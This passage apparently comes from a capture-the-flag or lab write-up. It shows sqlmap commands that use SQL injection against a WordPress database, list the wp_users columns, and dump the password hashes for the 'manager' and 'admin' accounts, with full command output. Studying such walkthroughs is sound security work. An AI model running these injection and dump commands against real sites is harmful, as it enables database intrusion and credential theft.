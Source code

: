     | wp_term_taxonomy                     |
    | wp_termmeta                          |
    | wp_terms                             |
    | wp_usermeta                          |
    | wp_users                             |
    +--------------------------------------+
    ```

    Now I enumerate the `wp_users` columns: `sqlmap -r request.txt --batch -D blog -T wp_users --columns`
    ```
    [10 columns]
    +---------------------+---------------------+
    | Column              | Type                |
    +---------------------+---------------------+
    | display_name        | varchar(250)        |
    | ID                  | bigint(20) unsigned |
    | user_activation_key | varchar(255)        |
    | user_email          | varchar(100)        |
    | user_login          | varchar(60)         |
    | user_nicename       | varchar(50)         |
    | user_pass           | varchar(255)        |
    | user_registered     | datetime            |
    | user_status         | int(11)             |
    | user_url            | varchar(100)        |
    +---------------------+---------------------+
    ```

    Now I retrieve the `user_pass` and `user_login` columns of all the rows present: `sqlmap -r request.txt --batch -D blog -T wp_users -C user_pass, user_login --dump`
    ```
    [2 entries]
    +--------------+------------------------------------+
    | display_name | user_pass                          |
    +--------------+------------------------------------+
    | manager      | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 |
    | admin        | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. |
    +--------------+------------------------------------+
    ```
